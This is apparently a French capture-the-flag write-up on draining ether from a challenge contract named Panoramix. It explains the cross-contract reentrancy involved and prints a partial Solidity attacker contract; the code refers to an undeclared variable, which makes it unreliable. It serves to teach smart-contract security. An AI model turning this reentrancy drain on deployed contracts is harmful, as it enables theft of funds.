 # Broceliande

## Objectif
L'objectif est de volé tout ses ethers à Panoramix

## Détails
Le smart contract "Panoramix" est vulnérable à une attaque en trois étapes :

    - cross contract reentrancy pour derober les ethers de Panoramix
    - Utiliser de la magie afin :
        - Underflow sur le tableau herbs pour devenir Druide

## Attaque

### Cross Contract Reentrancy

Voici un exellent article pour comprendre les cross contract reentrancy, [ici](https://inspexco.medium.com/cross-contract-reentrancy-attack-402d27a02a15).

La fonction withdraw() du smart contract Elixir renvoie le nombre d'Elixirs qu'un utilisateur possède en Ether selon un ratio de 1:1. Ensuite, le smart contract Elixir brûle tous les Elixirs de l'utilisateur, maintenant ainsi le ratio de 1:1 en permanence. Toutefois, grâce à une "cross-contract reentrancy", il est possible de transférer ses Elixirs à un autre smart contract avant qu'ils ne soient brûlés.

L'attaque utilise deux smart contracts : `Attack1` et `Attack2`.

Le premier, `Attack1`, effectue un dépôt et un retrait sur Panoramix. Lorsque la function `receive()` est appelé, les tokens sont transférés à l'adresse du deuxième smart contract `Attack2`. Ensuite, les tokens d'`Attack2` sont retransférés à l'adresse d'`Attack1`, ce qui permet de récupérer les ethers et les tokens.

Il suffit de répéter cette opération jusqu'à ce que Panoramix n'ait plus d'ethers. Les smart contracts utilisés sont les suivants :


```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import "./panoramix.sol";
import "./elixir.sol";
import "./attack2.sol";

contract Attack1{

    Elixir public elixir;
    Panoramix public panoramix;
    Attack2 public attack2;

    constructor(Panoramix _panoramix, Attack2 _attack2){
        elixir = getafix.elixir();
        panoramix = _panoramix;
        attack2 = _attack2;
    }

    function attack() payable public{
        require(msg.value == 1 ether);
        panoramix.deposit{value : msg.value}();
        while (panoramix.getBalance() != 0){
            panoramix.withdraw();
            attack2.resendElixir();
        }
    }
```